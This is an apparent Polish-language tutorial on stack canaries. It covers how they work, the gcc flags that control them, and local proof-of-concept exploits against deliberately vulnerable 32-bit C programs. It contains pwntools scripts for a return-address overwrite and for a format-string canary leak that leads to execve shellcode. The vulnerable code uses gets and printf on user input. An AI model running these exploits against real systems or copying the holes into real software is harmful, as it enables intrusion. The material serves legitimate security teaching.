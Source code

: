 # Stack canary

### 1. Opis

Kanarek jest mechanizmem zabezpieczenia stosu. Stara się on zapobiegać zmianie wykonania programu za pomocą nadpisywanie elementów na stosie.

Stack canary albo security cookie to losowa wartość zapisywana na stosie przed adresem powrotu. Przed powrotem wartość ta jest sprawdzana. Jeżeli uległa zmianie przerywane jest działanie programu.

Wartości kanarka mogą być generowane w różny sposób. Mogą to być wartości zawierające elementy takie jak `null byte` czy `terminator chars`, aby zapobiegać nadpisaniu kanarka po nadpisaniu powrotu. W przypadku przepełnienia bufora zapisanie takich znaków jest dość trudne przy użyciu danych funkcji.

Dość popularną strategią jest generacja kanarka w losowy sposób przy inicjalizacji programu i zapis go w zmiennych globalnych. Oczywiście odczytanie takiego kanarka może być możliwe dlatego często jest on paddowany pustymi stronami.

Istnieją też tak zwane `XOR canaries`, czyli kanarki, których wartość to XOR paru losowo wybranych wartości z programu. Dzięki temu nadpisanie takiego kanarka graniczy z cudem.

Jest to defaultowa opcja kompilatora `gcc`, można ją wyłączyć flagą `-fno-stack-protector`. Ochronę funkcji z buforami większymi niż 8 bajtów i używającymi `alloca` włącza `-fstack-protector`. A ochronę wszystkich funkcji włącza `-fstack-protector-all`.

Podobnie zachowuje się `clang`.

Kanarek sprawdza się przeciwko atakom, które nadpisują adres powrotu - ataki typu `ret2libc`, `ropchain` są bezużyteczne bez znajomości kanarka. 

Kanarek nie chroni przed atakami typu `format string`.

### 2. Wygląd w assemblerze

Koniec wywołania funkcji z kanarkiem wygląda następująco.

![img_2.png](img/img_7.png)

Do rejestru `eax` ładowany jest aktualny kanarek funkcji. Następnie odejmowany jest on od zapisanego kanarka w `gs:0x14`. W przypadku zgodności kanarków wartość odejmowania to zero.

Wtedy ustawiana jest flaga zero i instrukcja `je` przeskakuję `call` do funkcji mówiącej o błędzie kanarka i wywołanie kończy się normalnie. W odwrotnym przypadku wywoływana jest funkcja, która obsługuje błąd.

### 3. Proof of concept - prosta zmiana wykonania

Kanarek jest dobra metodą obrony przed atakami typu `ASLR & PIE/exploit_1`. Ataki bazujące na nadpisaniu adresu powrotu są dobrze łatane przez kanarka stosu. Jest to lepsza metoda niż ASLR, bo w 100% skuteczna.

Oczywiście wyciek pamięci (`arbitrary read`) pozwala bardzo łatwo obejść kanarka po prostu nadpisując w jego miejsce odpowiednią wartość.

Kod aplikacji podatnej jest taki sam, jaki  i exploit.

- **PIE & ASLR**: wyłączony - opcje te pozwalają na stały adres funkcji - ułatwiają exploitacje.
- **CANARY**: wyłączony - jest to idea tego exploitu.

```c
// gcc vuln.c -no-pie -std=c99 -m32 -fno-stack-protector -z execstack -w -o vuln.o
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

void secret() {
    system("sh");
}

void ask_for_name()
{
    char name[12] = {0};
    puts("What's your name?");
    gets(name);
    printf("Hi %s!\n", name);
}

int main()
{
    ask_for_name();
return 0;
}
```

Exploit ten był już opisywany w poprzednich rozdziałach. Ładuje on pod adres powrotu adres funkcji `secret`

Exploit:
```python
from pwn import *

p = process("./vuln.o")

p.readuntil("What's your name?\n")


name = b'AAAABBBBCCCCDDDDEEEEFFFF' # inject aaaas till eip
name += b'\xc9\x61\x55\x56' 

p.sendline(name)

p.interactive()

```

W tym przypadku przy kompilacji bez kanarka udaje się dostać shell.

![img.png](img/img_5.png)

A w przypadku kompilacji z kanarkiem nie udaje się - widać tutaj błąd, który wyrzucił kanarek.

![img_1.png](img/img_6.png)


### 4. Proof of concept - leak kanarka i wykonywalny stos

Istotą tego exploitu będzie pozyskanie wartości kanarka za pomocą format string.

Kod aplikacji podatnej: 

```c
#include <stdio.h>

int main(int argc, char *argv[]) {
    char name[16];
    char purpose[64];

    gets(name);
    printf("Hi!");
    printf(name);
    printf("\n");
    gets(purpose);
    printf("%s",purpose);
    return 0;

}
```

Schemat działania:
- Zlokalizować, którym argumentem pozycyjnym na stosie jest kanarek.
- Zlokalizować element na stosie, który ma stały adres względem drugiego bufora.
- Za pomocą otrzymanego adresu oraz wartości kanarka zbudować shellcode.

Aby otrzymać argumenty bedę używał exploitu format string. Konstrukcja `%15$x` pobierze 15 element ze stosu, liczbę mogę podmieniać.

Podpinam `gdb` do procesu aplikacji i szukam adresu do zatrzymania wykonania. Wybieram adres przed sprawdzeniem kanarka. Widzę też gdzie powinien znajdować się kanarek -`[ebp-0xc]`.

![img.png](img/img.png)

W `gdb` wyświetlam stos i lokalizuję kanarka.

![img_1.png](img/img_1.png)

Kanarek znajduję się w zamierzonym miejscu. Dwa adresy wyżej widzę również adres, który wygląda na adres, który może posłużyć do znalezienia offsetu naszego bufora. Upewniam się ze adres ten jest dobry kilkukrotnie wywołując program i sprawdzając offset od bufora - jest on stały i wynosi `0x108`.

Teraz strzelam w losowy argument na stosie i staram się ustalić gdzie jest kanarek i mój adres.

```c
import * from pwn

p = process("./vuln_2.o")

first_payload = "%20$x%21$x"
```

![img_2.png](img/img_2.png)

Otrzymuje dwa adresy, które znajduję na stosie.

![img_3.png](img/img_3.png)

Kanarek znajduje się na 31 pozycji, a nasz adres na 29. Od drugiego adresu muszę odjąć `0x108` i dodać offset wygenerowany przez elementy przed shellcode.

Gotowy shellcode bedzie wyglądał tak:
```
'aaaa...'+kanarek+adres_shellcode+shellcode
```
Piszę exploit:

```python
from pwn import *

p = process("./vuln_2.o")

first_payload = ",%29$x,%31$x"
p.sendline(first_payload) # wysylam format string do leakowania informacji
gdb.attach(p)
answer = p.recvline().decode("utf-8").split(',') # formatuje informacje
canary = int(answer[2],16) 
offset_address = int(answer[1],16)
buffor_address = offset_address - 0x108 
stuffed_canary = b'a'*64+p32(canary)

shellcode_address = buffor_address + len(stuffed_canary) +4
shellcode = b'\x31\xc9\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80'

second_payload = stuffed_canary + p32(shellcode_address) + shellcode

p.sendline(second_payload)

p.interactive()

```

Został wywołany shell - exploit działa.

![img_4.png](img/img_4.png)

### 5. Proof of concept - GOT overwrite z format string

Opis tego exploita znajduje się w następnym rodziale, jest to exploit przed, którym kanarek nie jest w stanie ochronić. Kanarek w żaden sposób nie chroni przed atakami typu format string oraz atakami typu GOT.

### 6. Wnioski

Kanarek stosu jest dobrą metodą zabezpieczenia przed nadpisaniem adresu powrotu. Dobrą praktyką jest stosowanie go w funkcjach zawierających bufor domyślnie, używanie kanarka w każdej funkcji nie jest zalecane bez powodu.